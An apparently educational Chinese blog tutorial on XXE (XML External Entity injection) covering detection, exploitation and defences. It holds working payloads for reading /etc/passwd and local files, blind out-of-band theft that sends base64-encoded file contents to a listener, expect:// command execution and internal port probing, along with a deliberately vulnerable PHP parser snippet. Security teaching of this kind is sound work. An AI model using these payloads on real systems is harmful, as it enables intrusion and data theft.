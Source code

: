 ```yaml
---
title: XXE（XML External Entity）漏洞
date: 2019-03-01 08:59:43
tags: 
	- XXE
	- XML注入
	- OWASP Top10 2017
categories: WEB漏洞学习
---
```


## 0x00 必备XML基础知识

DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。DTD 可以在 XML 文档内声明，也可以外部引用。

DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。实体的声明是在DTD声明里面的，属于DTD声明的一部分。

<!-- more -->

![](XXE\InkedQQ截图20190301091748_LI.jpg)

更多XML基础知识跳转[这里](https://sakuxa.com/2019/02/28/xml/)。

## 0x01 XXE漏洞概述

XXE -"xml external entity injection"即"xml外部实体注入漏洞"。

攻击者通过向服务器注入指定的xml实体内容,从而让服务器按照指定的配置进行执行,导致问题。
也就是说服务端接收和解析了来自用户端的xml数据,而又没有做严格的安全控制,从而导致xml外部实体注入。

在PHP里面解析xml用的是libxml,其在≥2.9.0的版本中,默认是禁止解析xml外部实体内容的。可以使用phpinfo()查看libxml的版本信息。 

![](XXE\QQ截图20190301093413.png)

**漏洞检测：**

首先，检测XML是否会被解析。`&xxe;`是否会被解析为"this is xxe".(注意：GET请求时记得把`&`进行URL编码)

> Payload:`<!DOCTYPE ANY [ <!ENTITY xxe "this is xxe.."> ]> <x>&xxe;</x>`

然后，检测服务器是否支持外部实体。执行Payload后查看`test.com`服务器的http访问日志，看是否存在`GET /xxe_test HTTP/1.0`的请求，若存在则证明支持外部实体。

> Payload:`<!DOCTYPE ANY [ <!ENTITY xxe SYSTEM  "http://test.com/xxe_test"> ]><x>&xxe;</x>`

## 0x02 恶意引入外部实体

**情景一：**

```
<?xml version="1.0"?>
<!DOCTYPE note [    
  <!ELEMENT note any>   
 
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>

<note> &xxe; </note>
```

**情景二：**

```
<?xml version="1.0"?>
<!DOCTYPE note [    
  <!ELEMENT note any>   
 
  <!ENTITY % hack SYSTEM "hack.dtd" >
  % hack  //会被hack.dtd的内容替换。
]>

<note> &xxe; </note>
```

`hack.dtd`文件内容：

```
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
```

**情景三：**

```
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "hack.dtd">

<note> &xxe; </note>
```

`hack.dtd`文件内容：

```
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
```

**外部引用实体时，不同的程序可以使用的协议不一样：**

![](XXE\15129735161149.png)

## 0x03 XXE漏洞利用

利用xxe漏洞可以进行拒绝服务攻击，文件读取，命令(代码)执行，SQL(XSS)注入，内外扫描端口，入侵内网站点等，内网探测和入侵是利用xxe中支持的协议进行内网主机和端口发现，可以理解是使用XXE进行SSRF的利用。

一般XXE利用分为两大场景：有回显和无回显。

> - 有回显的情况可以直接在页面中看到Payload的执行结果或现象。
> - 无回显的情况又称为Blind XXE，可以使用带外数据通道提取数据。

基本漏洞源码：

```
<?php
    $xml=simplexml_load_string($_REQUEST['xml']);
    echo "<p>$xml</p>"
?>
```

**1.任意文件读取：**

**有回显的情况：**

Payload:`<!DOCTYPE note [<!ELEMENT note ANY ><!ENTITY xxe SYSTEM "file:///S://aa.txt">]><note>&xxe;</note>` 

![](S:\hexo\myblog\source\_posts\XXE\QQ截图20190301133421.png)

![](XXE\QQ截图20190301133122.png)

**无回显的情况：**

`%file;`会调用php插件对要读取的文件内容进行Base64编码。

`%dtd;`会请求我们编写好的`evil.xml`文件，会被`evil.xml`文件内容替换。

`%payload;`被`<!ENTITY &#x25; send SYSTEM 'http://localhost/?content=%file;'>`替换。

`%send;`会向我们的服务器发送一次请求，请求的参数是被编码的文件内容，此时我们去查看`http`的访问日志就能看到被编码的文件内容，进行Base64解码就能得到文件内容。

Payload:

```
<!DOCTYPE note [ 
  <!ELEMENT note ANY >
  <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/S:/test.txt">
  <!ENTITY % dtd SYSTEM "http://localhost/evil.xml">
  %dtd; %payload; %send;  ]>
```

`evil.xml`文件内容：内部`send`的`%`要用实体：`&#x25;`

```
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://localhost/?content=%file;'>"> 
```

`http`访问日志：（到配置文件`http.conf`里找到`CustomLog "logs/access.log" common`并删除掉`#`号注释）

![](XXE\QQ截图20190301152037.png)

**PS:**之所以要引入文件`evil.xml`原因是不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。

Base64解码：

![](XXE\QQ截图20190301152528.png)

**2.命令执行：**

安装了expect扩展的PHP环境可以执行系统命令，其他协议也有可能存在其他执行系统命令的方法。

[expect](http://php.net/manual/zh/wrappers.expect.php)封装协议默认未开启。

Payload:`<!DOCTYPE ANY [ <!ENTITY xxe SYSTEM "expect://whoami"> ]><x>&xxe;</x>`

**3.内网端口探测：**

Payload:`<!DOCTYPE ANY [ <!ENTITY xxe SYSTEM "http://localhost:81"> ]><x>%26xxe;</x>`

## 0x04 漏洞防御

- 尽可能使用简单的数据格式（如：JSON），避免对敏感数据进行序列化。
- 及时修复或更新应用程序或底层操作系统使用的所有XML处理器和库。
- 在服务器端实施积极的（“白名单”）输入验证、过滤和清理，以防止在XML文档、标题或节点中出现恶意数据。关键词：<!DOCTYPE和<!ENTITY，或者，SYSTEM和PUBLIC。
- 使用开发语言提供的禁用外部实体的方法。

**参考链接：**

https://github.com/JnuSimba/MiscSecNotes/blob/master/XML%E6%B3%A8%E5%85%A5/XXE%E6%BC%8F%E6%B4%9E.md

https://www.cnblogs.com/backlion/p/9302528.html

https://www.jianshu.com/p/77f2181587a4